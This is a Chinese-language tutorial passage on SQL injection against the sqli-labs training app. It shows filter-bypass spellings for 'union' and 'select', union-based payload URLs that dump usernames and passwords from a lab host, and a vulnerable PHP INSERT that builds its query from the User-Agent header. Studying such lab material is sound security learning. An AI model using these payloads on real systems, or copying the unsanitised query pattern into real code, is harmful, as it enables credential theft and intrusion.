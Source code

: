 

### 4.绕过去除 union 和 select 的流量分析

#### 1、大小写，双写流量

- UnIon 
- SelECT 
- UnuNionIon 
- sElSelECtect

#### 2、盲注流量

- 大量的盲注请求
- And if sleep

## where id=1=1

```
where id=1=1
where id=1=0
```

```
http://192.168.70.14:8088/Less-1/?id=-1' union select 1,group_concat(username,'^',password),3 from users where id=1=1--+
http://192.168.70.14:8088/Less-1/?id=-1' union select 1,group_concat(username,'^',password),3 from users where id=1=0--+
```

![image-20240806103242714](../../../../repo/assets/19.SQL注入/image-20240806103242714.png)

![image-20240806103308111](../../../../repo/assets/19.SQL注入/image-20240806103308111.png)



## **Http 头注入之 UA 头注入**

### **一、**http**头注入介绍**

在安全意识越来越重视的情况下，很多网站都在防止漏洞的发生。例如 SQL注入中，用户提交的参数都会被代码中的某些措施进行过滤。

过滤掉用户直接提交的参数,但是对于 HTTP 头中提交的内容很有可能就没有进行过滤。例如 HTTP 头中 User-Agent、Referer、Cookies 等。 

### **二、**User-Agent**注入**(INSERT **提交的参数**)

- 1 获得头信息
- 2 没过滤
- 3 数据库操作

#### 查看 Less-18 代码

可以看到注入点

```php
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`,`username`) VALUES ('$uagent', '$IP', $uname)";
```
